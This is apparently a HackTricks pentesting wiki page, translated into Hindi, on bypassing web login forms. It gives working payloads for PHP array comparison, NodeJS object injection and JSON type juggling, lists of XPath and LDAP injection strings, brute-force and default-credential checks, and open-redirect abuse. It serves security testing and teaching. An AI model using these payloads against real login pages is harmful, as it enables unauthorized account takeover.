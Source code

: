 # Login Bypass

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे प्रासंगिक साइबर सुरक्षा कार्यक्रम है और **यूरोप** में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** के मिशन के साथ, यह कांग्रेस हर अनुशासन में प्रौद्योगिकी और साइबर सुरक्षा पेशेवरों के लिए एक उबालता हुआ बैठक बिंदु है।

{% embed url="https://www.rootedcon.com/" %}

## **नियमित लॉगिन बायपास करें**

यदि आप एक लॉगिन पृष्ठ पाते हैं, तो यहां कुछ तकनीकें हैं जिन्हें आप बायपास करने के लिए आजमा सकते हैं:

* पृष्ठ के अंदर **टिप्पणियों** की जांच करें (नीचे और दाईं ओर स्क्रॉल करें?)
* जांचें कि क्या आप **प्रतिबंधित पृष्ठों** तक **प्रत्यक्ष पहुंच** प्राप्त कर सकते हैं
* **पैरामीटर न भेजें** (कोई भी न भेजें या केवल 1)
* **PHP तुलना त्रुटि की जांच करें:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **सामग्री प्रकार को json में बदलें** और json मान भेजें (bool true शामिल)
* यदि आपको एक प्रतिक्रिया मिलती है जो कहती है कि POST समर्थित नहीं है, तो आप **GET अनुरोध के साथ शरीर में JSON भेजने** का प्रयास कर सकते हैं `Content-Type: application/json`
* nodejs संभावित पार्सिंग त्रुटि की जांच करें (पढ़ें [**यह**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs उस पेलोड को निम्नलिखित में से एक समान क्वेरी में बदल देगा: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` जो पासवर्ड बिट को हमेशा सत्य बनाता है।
* यदि आप एक JSON ऑब्जेक्ट भेज सकते हैं, तो आप लॉगिन बायपास करने के लिए `"password":{"password": 1}` भेज सकते हैं।
* याद रखें कि इस लॉगिन को बायपास करने के लिए आपको अभी भी **एक मान्य उपयोगकर्ता नाम जानने और भेजने की आवश्यकता है**।
* **`mysql.createConnection`** को कॉल करते समय `"stringifyObjects":true` विकल्प जोड़ने से अंततः **जब `Object` पैरामीटर में पास किया जाता है तो सभी अप्रत्याशित व्यवहारों को रोक देगा**।
* क्रेडेंशियल्स की जांच करें:
* उपयोग की गई तकनीक/प्लेटफ़ॉर्म के [**डिफ़ॉल्ट क्रेडेंशियल्स**](../../generic-methodologies-and-resources/brute-force.md#default-credentials)
* **सामान्य संयोजन** (रूट, व्यवस्थापक, पासवर्ड, तकनीक का नाम, इनमें से किसी एक पासवर्ड के साथ डिफ़ॉल्ट उपयोगकर्ता)।
* **Cewl** का उपयोग करके एक शब्दकोश बनाएं, **डिफ़ॉल्ट** उपयोगकर्ता नाम और पासवर्ड (यदि कोई हो) जोड़ें और सभी शब्दों को **उपयोगकर्ता नाम और पासवर्ड** के रूप में ब्रूट-फोर्स करने का प्रयास करें
* **बड़े शब्दकोश का उपयोग करके ब्रूट-फोर्स करें** (**[**Brute force**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)

### SQL Injection प्रमाणीकरण बायपास

[यहां आप **SQL इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए कई तरकीबें पा सकते हैं](../sql-injection/#authentication-bypass).

अगली पृष्ठ पर आप **SQL इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए एक **कस्टम सूची** पा सकते हैं:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL Injection प्रमाणीकरण बायपास

[यहां आप **No SQL इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए कई तरकीबें पा सकते हैं](../nosql-injection.md#basic-authentication-bypass)**.**

चूंकि NoSQL इंजेक्शन को पैरामीटर मान को बदलने की आवश्यकता होती है, इसलिए आपको उन्हें मैन्युअल रूप से परीक्षण करने की आवश्यकता होगी।

### XPath Injection प्रमाणीकरण बायपास

[यहां आप **XPath इंजेक्शन** के माध्यम से लॉगिन बायपास करने के लिए कई तरकीबें पा सकते हैं](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection प्रमाणीकरण बाईपास

[यहाँ आप **LDAP Injection** के माध्यम से लॉगिन बाईपास करने के लिए कई तरकीबें पा सकते हैं।](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Remember Me

यदि पृष्ठ में "**Remember Me**" कार्यक्षमता है, तो जांचें कि इसे कैसे लागू किया गया है और देखें कि क्या आप इसका दुरुपयोग करके **अन्य खातों पर नियंत्रण** प्राप्त कर सकते हैं।

### Redirects

पृष्ठ आमतौर पर लॉगिन के बाद उपयोगकर्ताओं को रीडायरेक्ट करते हैं, जांचें कि क्या आप उस रीडायरेक्ट को बदल सकते हैं ताकि [**Open Redirect**](../open-redirect.md) का कारण बन सके। शायद आप कुछ जानकारी (कोड, कुकीज़...) चुरा सकते हैं यदि आप उपयोगकर्ता को अपने वेब पर रीडायरेक्ट करते हैं।

## Other Checks

* जांचें कि क्या आप लॉगिन कार्यक्षमता का दुरुपयोग करके **उपयोगकर्ता नामों की गणना** कर सकते हैं।
* जांचें कि क्या पासवर्ड/**संवेदनशील** जानकारी **फॉर्म** **इनपुट** में **ऑटो-कंप्लीट** सक्रिय है: `<input autocomplete="false">`

## Automatic Tools
* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) **स्पेन** में सबसे प्रासंगिक साइबर सुरक्षा कार्यक्रम है और **यूरोप** में सबसे महत्वपूर्ण में से एक है। **तकनीकी ज्ञान को बढ़ावा देने** के मिशन के साथ, यह कांग्रेस हर अनुशासन में प्रौद्योगिकी और साइबर सुरक्षा पेशेवरों के लिए एक उबालता हुआ बैठक बिंदु है।

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
